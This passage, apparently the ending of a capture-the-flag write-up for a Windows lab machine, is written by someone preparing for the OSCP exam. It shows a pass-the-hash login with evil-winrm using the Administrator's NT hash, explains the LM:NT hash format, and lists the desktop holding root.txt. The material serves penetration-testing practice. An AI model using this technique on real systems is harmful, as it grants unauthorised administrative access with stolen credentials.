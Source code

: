 With the Administrators hash, we can log into the box and grab the root.txt from the desktop
> [!NOTE]
> We use the last section of the hash after the : to pass into evil-winrm as the first have denotes the LM hash which we can't use here. Hash format: LM_hash:NT_hash (credit to ChatGPT)

```
evil-winrm -u Administrator -H '<Admin's Hash>' -i 10.10.11.202

<SNIP>
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/14/2025   9:35 PM             34 root.txt
```

And that is all she wrote, I had to use several hints to shake off the rust of pwning windows machine, but I think it was a great one to do that with. Slowly working my way through the rest of TJ Nulls OSCP list as I prepare for my OSCP examine, thanks for reading!


